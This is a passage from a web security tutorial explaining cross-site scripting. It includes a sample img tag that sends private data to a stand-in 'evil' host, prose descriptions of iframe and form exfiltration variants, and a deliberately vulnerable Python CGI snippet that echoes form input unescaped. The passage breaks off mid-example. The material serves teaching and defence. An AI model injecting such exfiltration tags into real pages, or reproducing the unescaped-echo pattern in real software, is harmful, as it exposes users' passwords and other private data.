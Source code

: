 Normally you would view this as a read-only operation:  the browser requests an image, and the server sends the data.  The browser didn't upload anything, so no data can be lost, right?  Almost, but not quite.  The browser _did_ upload something: namely, the URL of the image.  Images use standard URLs, and any URL can have query parameters encoded in it.  A legitimate use case for this might be a page hit counter image, where a CGI on the server selects an appropriate image based on a query parameter and streams the data to the user in response.  Here is a reasonable (though hypothetical) URL that could return a hit-count image showing the number '42':  http://site.domain.tld/pagehits?count=42.

In the static HTML world, this is perfectly reasonable.  After all, the server is not going to send the client to a web site that will leak the server's or user's data -- at least, not on purpose.  Because this technique is legal in HTML, it's also legal in JavaScript, but there is an unintended consequence.  If some evil JavaScript code gets injected into a good web page, it can construct `<img>` tags and add them to the page.

It is then free to construct a URL to any hostile domain, stick it in an `<img>` tag, and make the request.  It's not hard to imagine a scenario where the evil code steals some useful information and encodes it in the `<img>` URL;  an example might be a tag such as:

`<img src="http://evil.domain.tld/pagehits?private_user_data=12345"/>`.

If `private_user_data` is a password, credit card number, or something similar, there'd be a major problem.  If the evil code sets the size of the image to 1 pixel by 1 pixel, it's very unlikely the user will even notice it.

## Cross-Site Scripting ##

The type of vulnerability just described is an example of a class of attacks called "Cross-Site Scripting" (abbreviated as "XSS"). These attacks involve browser script code that transmits data (or does even worse things) across sites.  These attacks are not limited to `<img>` tags, either;  they can be used in most places the browser lets script code access URLs.  Here are some more examples of XSS attacks:

  * Evil code creates a hidden iframe and then adds a `<form>` to it. The form's action is set to a URL on a server under the attacker's control.  It then fills the form with hidden fields containing information taken from the parent page, and then submits the form.
  * Evil code creates a hidden iframe, constructs a URL with query parameters containing information taken from the parent page, and then sets the iframe's "src" to a URL on a server under the attacker's control.
  * Evil code creates a `<script>` tag, which functions almost identically to the `<img>` attack.  (Actually, it's a lot worse, as I'll explain in a later section.)

Clearly, if evil code gets into your page, it can do some nasty stuff.  By the way, don't take my examples above as a complete list; there are far too many variants of this trick to describe here.

Throughout all this there's a really big assumption, though:  namely, that evil JavaScript code could get itself into a good page in the first place.  This sounds like it should be hard to do;  after all, servers aren't going to intentionally include evil code in the HTML data they send to web browsers.  Unfortunately, it turns out to be quite easy to do if the server (and sometimes even client) programmers are not constantly vigilant.  And as always, evil people are spending huge chunks of their lives thinking up ways to do this.

The list of ways that evil code can get into an otherwise good page is endless.  Usually they all boil down to unwary code that parrots user input back to the user.  For instance, this Python CGI code is vulnerable:
```
import cgi
f = cgi.FieldStorage()
name = f.getvalue('name') or 'there'

s = '<html><body><div>Hello, ' + name + '!</div></body></html>'

print 'Content-Type: text/html'
print 'Content-Length: %s' % (len(s),)
print
print s
```
The code is supposed to print a simple greeting, based on a form input.  For instance, a URL like this one would print "Hello, Dan!":
